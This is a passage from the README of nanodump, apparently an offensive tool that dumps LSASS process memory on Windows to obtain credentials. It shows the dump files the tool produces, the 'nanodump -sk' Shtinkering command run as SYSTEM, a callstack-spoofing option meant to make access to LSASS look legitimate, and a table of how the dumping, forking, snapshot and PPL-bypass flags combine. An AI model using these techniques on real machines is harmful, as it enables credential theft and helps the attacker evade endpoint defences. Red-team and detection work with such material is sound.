 A dump of the nanodump process will also be created, similar to this:
```
PS C:\> dir 'C:\Windows\Temp\lsass.exe-(PID-648)-4035593\'

Directory: C:\Windows\Temp\lsass.exe-(PID-648)-4035593

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   7:40 AM       58830409 lsass.exe-(PID-648).dmp
-a----         6/23/2022   7:40 AM        7862825 nanodump.x64.exe-(PID-3224).dmp
```

<h4>Shtinkering</h3>

You can also use the Shtinkering technique, which requires nanodump to run under SYSTEM:
```
nanodump -sk
```

The dump will tipically be created under `C:\Windows\system32\config\systemprofile\AppData\Local\CrashDumps`

<h3>Spoof the callstack</h2>

You can open a handle to LSASS with a fake callstack to make the function call look a bit more legitimate (especially if run as BOF).  
To access this feature, use the paramter `-sc`.

<h2 id="combinations">3. Combining techniques</h2>

You can combine many techniques to customize how nanodump operates.  
The following table indicates which flags can be used together.

|            | --write | --valid | -d | -eh | -de | --slr | -sd | -sc | -spe | -sk | --fork | --snapshot | SSP | PPL_DUMP | PPL_MEDIC |
|------------|:-------:|:-------:|:--:|:---:|:---:|:-----:|:---:|:---:|:----:|:---:|:------:|:----------:|:---:|:--------:|:---------:|
| --write    | ✓       | ✓       | ✓  |  ✓  |  ✓  | ✓     |  ✓  |  ✓  |      |     | ✓      | ✓          |     | ✓        | ✓         |
| --valid    | ✓       | ✓       | ✓  |  ✓  |  ✓  | ✓     |  ✓  |  ✓  |      |     | ✓      | ✓          |     | ✓        | ✓         |
| -d         | ✓       | ✓       | ✓  |     |     |       |     |     |      |  ✓  | ✓      | ✓          |     | ✓        |           |
| -eh        | ✓       | ✓       |    |  ✓  |     |       |     |  ✓  |      |  ✓  | ✓      | ✓          |     |          | ✓         |
| -de        | ✓       | ✓       |    |     |  ✓  |       |     |     |      |  ✓  | ✓      | ✓          |     |          |           |
| --slr      | ✓       | ✓       |    |     |     | ✓     |     |     |      |  ✓  | ✓      | ✓          |     |          |           |
| -sd        | ✓       | ✓       |    |     |     |       |  ✓  |     |      |  ✓  | ✓      | ✓          |     |          |           |
| -sc        | ✓       | ✓       |    |  ✓  |     |       |     |  ✓  |      |  ✓  | ✓      | ✓          |     |          |           |
| -spe       |         |         |    |     |     |       |     |     |  ✓   |     |        |            |     |          |           |
| -sk        |         |         | ✓  |  ✓  |  ✓  | ✓     |  ✓  |  ✓  |      |  ✓  |        |            |     |          |           |
| --fork     | ✓       | ✓       | ✓  |  ✓  |  ✓  | ✓     |  ✓  |  ✓  |      |     | ✓      |            |     |          |           |
| --snapshot | ✓       | ✓       | ✓  |  ✓  |  ✓  | ✓     |  ✓  |  ✓  |      |     |        | ✓          |     |          |           |
| SSP        |         |         |    |     |     |       |     |     |      |     |        |            | ✓   |          |           |
| PPL_DUMP   | ✓       | ✓       | ✓  |     |     |       |     |     |      |     |        |            |     | ✓        |           |
| PPL_MEDIC  | ✓       | ✓       |    |  ✓  |     |       |     |     |      |     |        |            |     |          | ✓         |

<h2 id="examples">4. Examples</h2>
